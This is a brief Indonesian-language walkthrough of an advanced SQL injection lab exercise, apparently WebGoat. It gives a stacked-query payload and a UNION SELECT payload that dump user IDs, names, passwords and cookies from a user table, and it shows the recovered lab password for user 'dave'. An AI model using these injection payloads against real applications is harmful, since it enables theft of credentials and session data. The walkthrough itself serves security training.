 # SQL Injection (advanced)
## Try It! Pulling data from other tables
- Masukkan query injection sebagai berikut lalu tekan tombol **Get Account Info**
```sh
'; select * from user_system_data; --
```

- Setelah data tampil, kita dapat menemukan password user dave


- Masukkan password user dave ke field Password dan tekan tombol **Check Password**
```sh
passW0rD
```

- Selain query injection diatas, kita juga bisa memasukkan query sebagai berikut
```sh
' union select userid, user_name, password, cookie, null as c1, null as c2, null as c3 from user_system_data; --
```
